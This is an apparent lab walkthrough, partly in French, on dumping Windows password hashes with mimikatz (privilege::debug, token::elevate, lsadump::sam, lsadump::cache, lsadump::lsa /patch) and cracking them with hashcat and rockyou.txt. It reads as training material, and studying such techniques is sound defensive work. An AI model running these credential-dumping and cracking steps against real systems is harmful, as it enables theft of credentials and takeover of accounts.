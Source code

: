 # Dumping hashes w/ mimikatz

\


### Dump Hashes w/ mimikatz -

1.) `cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary\


<div align="left">

<figure><img src="../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

</div>

\
2.) `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly\


<div align="left">

<figure><img src="../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

</div>

{% hint style="warning" %}
Il est parfois nécessaire de taper la commande:&#x20;

&#x20;`token::elevate`
{% endhint %}



Puis ces commandes:

```
lsadump::sam
(ou)
lsadump::cache    (pour les users d'un domaine)
```



\
3.) `lsadump::lsa /patch` Dump those hashes!\


<div align="left">

<figure><img src="../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

</div>

### Crack those hashes w/ hashcat

﻿

1.) `hashcat -m 1000 <hash> rockyou.txt`   &#x20;

<figure><img src="../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

\
Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz\
